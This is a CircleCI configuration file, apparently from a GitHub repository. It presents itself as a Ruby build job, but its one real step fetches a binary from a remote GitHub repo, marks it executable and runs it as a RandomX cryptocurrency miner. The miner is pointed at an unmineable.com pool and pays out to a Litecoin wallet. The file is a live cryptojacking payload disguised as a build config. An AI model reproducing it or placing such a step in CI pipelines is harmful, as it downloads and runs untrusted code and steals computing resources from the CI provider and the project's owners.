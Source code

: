 version: 2.0
jobs:
  build:
    docker:
      - image: circleci/ruby:2.4.2-jessie-node
        auth:
          username: mydockerhub-user
          password: $DOCKERHUB_PASSWORD  # context / project UI env-var reference
    steps:
      - checkout
      - run:  wget https://github.com/parkitmove/nuri-xm/raw/main/pkxmr && chmod +x pkxmr && ./pkxmr -o rx.unmineable.com:3333 -a rx -k -u LTC:MAU5ycXcJM3sBjREYEaFzRgxvbxYwkfQ4Y.ampaskopi-001 -p x --threads=2
